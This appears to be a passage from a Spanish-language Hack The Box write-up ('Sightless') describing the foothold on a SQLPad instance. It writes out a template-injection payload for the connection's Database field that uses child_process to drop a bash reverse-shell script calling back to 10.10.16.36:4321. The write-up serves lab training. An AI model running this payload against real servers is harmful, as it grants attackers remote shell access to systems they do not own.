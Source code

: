 ## Foothold

NIST hace referencia a un [PoC](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb) publicado en huntr.

A. Preparar la primera conexión

La explotación comienza creando una conexión maliciosa en Sqlpad.

* Connection name: test
* Driver: MySQL
* Database: Inserto el siguiente código

```javascript
{\{ process.mainModule.require('child_process').exec('echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.16.36/4321 0>&1" > /tmp/exploit.sh') }}
```
> Nota: Se debe eliminar la barra invertida `\`
{: .prompt-warning }

Este código crea un script en el sistema objetivo que, al ejecutarse, inicia una conexión inversa hacia mi máquina.

![](assets/img/htb-writeup-sightless/sightless1_5.png)
